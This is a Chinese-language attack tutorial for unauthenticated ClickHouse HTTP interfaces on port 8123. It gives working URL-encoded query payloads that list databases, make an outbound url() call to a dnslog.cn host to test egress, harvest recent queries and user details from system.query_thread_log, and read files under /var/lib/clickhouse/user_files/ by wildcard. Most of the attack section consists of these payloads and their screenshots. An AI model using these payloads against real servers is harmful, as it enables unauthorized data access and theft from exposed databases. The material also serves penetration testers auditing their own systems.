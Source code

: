 # ClickHouse 8123端口

## 关于

<a-checkbox checked>默认情况下，clickhouse-server会在8123端口上监控HTTP请求（这可以在配置中修改）。</a-checkbox></br>

<a-checkbox checked>如果你发送了一个未携带任何参数的GET /请求，它会返回一个字符串 «Ok.»（结尾有换行）。可以将它用在健康检查脚本中。</a-checkbox></br>

<a-checkbox checked>如果你发送了一个未携带任何参数的GET /请求，它返回响应码200和OK字符串定义，可在[Http服务响应配置](https://clickhouse.tech/docs/zh/operations/server-configuration-parameters/settings/#server_configuration_parameters-http_server_default_response)定义(在末尾添加换行)</a-checkbox></br>

![img](../../../.vuepress/public/img/1628588206029-001c2f56-3c81-460f-9c1e-e9591ef9a545.png)

这里可以看到 ClickHouse 存在着的接口由于没有鉴权，则任意访问者都可以执行SQL语句获取数据



## 攻击方法

首先确定是否使用了 ClickHouse 数据库的接口

![img](../../../.vuepress/public/img/1628596147024-6b26b99d-8bdf-4a21-b240-f607be168a27.png)

根据文档得知，正常返回为 Ok. , 且存在 X-ClickHouse-Summary 作为返回包的 Header

![img](../../../.vuepress/public/img/1628589399544-1c658858-3310-4fcd-81d5-b50ed0f0696f.png)



测试是否可以执行SQL命令, 部分会开启身份验证导致未授权执行失败

```php
/?query=SHOW%20DATABASES
```

![img](../../../.vuepress/public/img/1628596162773-fc4906c3-fd7d-4ede-a8d7-84a448ff4204.png)

成功执行语句获取数据，执行其他命令探测出网

```php
/?query=SELECT%20*%20FROM%20url('http://jahl09.dnslog.cn','txt','column1%20UInt32')%20LIMIT%202
```

![img](../../../.vuepress/public/img/1628596284780-19788c3d-bd1b-4d95-97e9-6a9a16fd0138.png)

![img](../../../.vuepress/public/img/1628596307830-d5958eea-ede0-4c17-8573-e77b07b362d4.png)

其中也可以查看 system库中的执行记录表来获取最近执行的所有SQL语句来快速定位可利用的信息

(获取敏感用户信息，数据库名以及数据表名)

```php
/?query=SELECT%20*%20FROM%20system.query_thread_log
```

![img](../../../.vuepress/public/img/1628597494586-5ea6c6ea-6526-44e0-b4b2-c92ae0fcb2d5.png)



由于默认配置中的可读路径默认 (`配置文件位置：/etc/clickhouse-server/config.xml`)

因此只能读取下面路径中的文件，当目标中曾在该路径导入文件且没有删除的情况下，可通过测试获取敏感文件信息，获取数据文件



<a-checkbox checked>/var/lib/clickhouse/user_files/</a-checkbox></br>

![img](../../../.vuepress/public/img/1628598316644-34da7b10-b2c6-45f1-a4ff-d5c11be372c7.png)

其中读取时可以利用通配符跳过不知道文件名的情况获取文件信息

![img](../../../.vuepress/public/img/1628600107499-7067f4c9-bc8a-4540-84e6-ceafd4dfdb42.png)

```php
/?query=SELECT%20*%20FROM%20file('*'%2C%20'CSV'%2C%20'column1%20String%2C%20column2%20String%2C%20column3%20String')%20LIMIT%203%3B"
```

![img](../../../.vuepress/public/img/1628600056235-beb60a43-c6bd-499c-8383-647185379ed1.png)